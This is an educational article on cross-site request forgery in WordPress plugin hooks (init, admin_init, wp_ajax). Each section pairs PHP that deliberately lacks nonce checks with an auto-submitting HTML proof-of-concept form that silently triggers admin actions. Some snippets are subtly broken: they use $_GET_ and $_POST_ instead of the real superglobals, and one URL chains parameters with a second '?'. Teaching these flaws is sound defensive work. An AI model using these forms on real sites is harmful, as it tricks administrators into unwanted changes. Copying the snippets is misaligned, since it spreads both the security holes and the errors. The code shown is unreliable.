 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST_["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data?id=1" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```